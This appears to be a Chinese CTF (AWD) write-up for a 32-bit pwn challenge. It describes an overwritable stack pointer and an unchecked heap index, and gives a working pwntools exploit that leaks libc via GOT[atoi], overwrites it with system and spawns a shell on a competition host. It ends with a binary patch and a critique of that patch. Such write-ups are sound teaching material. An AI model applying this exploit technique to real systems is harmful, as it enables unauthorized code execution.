 # awd

本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](assets/bug1.png)

> [!IMPORTANT]
> `"%4094s"`不允许修改，否则过不了check

![add](assets/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](assets/bug2.png)

## 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> [!INFO]
> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以开一个 discussion

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

## 参考修复方案

先上个通用沙箱，然后patch一些问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]
-01 d0                  add eax, edx
+8d 83 68 00 00 00      eax, [ebx + 0x68]       ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
实际上有所疏漏

